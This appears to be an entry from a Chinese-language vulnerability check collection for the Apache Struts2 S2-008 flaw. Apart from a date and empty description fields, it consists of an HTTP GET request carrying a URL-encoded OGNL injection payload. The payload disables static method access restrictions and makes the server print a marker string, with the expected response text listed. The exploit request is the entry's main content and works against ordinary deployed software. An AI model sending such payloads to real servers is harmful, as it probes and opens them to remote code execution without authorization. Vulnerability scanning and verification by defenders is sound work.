 ﻿# S2_008

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /devmode.action?debug=command&expression=%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23resp%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23resp.getWriter%28%29.println%28%27thanks6%27%2B%2786786786%27%29%2C%23resp.getWriter%28%29.flush%28%29%2C%23resp.getWriter%28%29.close%28%29 HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：686786786

> 上传文件定位：

> 验证文件来源：S2_008.poc

